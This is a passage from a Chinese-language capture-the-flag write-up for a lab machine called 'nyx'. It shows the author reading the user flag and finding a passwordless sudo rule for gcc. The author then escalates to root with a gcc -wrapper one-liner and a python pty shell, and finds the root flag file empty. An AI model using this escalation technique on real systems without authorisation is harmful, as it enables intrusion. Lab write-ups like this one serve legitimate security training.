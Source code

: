   138981 -rw-r--r-- 1 root    root      33 Aug 14  2020 user.txt
  mpampis@nyx:~$ cat user.txt 
  2cb67a256530577868009a5944d12637
  mpampis@nyx:~$ sudo -l
  Matching Defaults entries for mpampis on nyx:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
  
  User mpampis may run the following commands on nyx:
      (root) NOPASSWD: /usr/bin/gcc
  ```

## 提权

- 已知使用gcc可以获得root权限,并且不需要密码,所以这里直接使用一句话提权

- ```shell
  mpampis@nyx:~$ sudo gcc -wrapper /bin/sh,-s .
  # whoami
  root
  # uname -a
  Linux nyx 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64 GNU/Linux
  # ip a
  1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
      link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
      inet 127.0.0.1/8 scope host lo
         valid_lft forever preferred_lft forever
      inet6 ::1/128 scope host 
         valid_lft forever preferred_lft forever
  2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
      link/ether 00:0c:29:76:ff:df brd ff:ff:ff:ff:ff:ff
      inet 192.168.2.8/24 brd 192.168.2.255 scope global dynamic ens33
         valid_lft 1243sec preferred_lft 1243sec
      inet6 fe80::20c:29ff:fe76:ffdf/64 scope link 
         valid_lft forever preferred_lft forever
  # cd /root
  # ls -lhai
  total 24K
      20 drwx------  3 root root 4.0K Aug 14  2020 .
       2 drwxr-xr-x 18 root root 4.0K Aug 14  2020 ..
    3669 -rw-------  1 root root    0 Aug 14  2020 .bash_history
    1162 -rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
  138978 drwxr-xr-x  3 root root 4.0K Aug 14  2020 .local
    1161 -rw-r--r--  1 root root  148 Aug 17  2015 .profile
    3664 -rw-r--r--  1 root root    0 Aug 14  2020 root.txt
    3668 -rw-r--r--  1 root root  168 Aug 14  2020 .wget-hsts
  # cat root.txt  
  # cat root.txt  
  # python3 -c 'import pty;pty.spawn("/bin/bash")';
  root@nyx:~# cat root.txt 
  root@nyx:~# vim root.txt 
  bash: vim: command not found
  root@nyx:~# vi root.txt 
  
  ```

- Ps:作者你在干什么,root.txt文件里面什么都没有...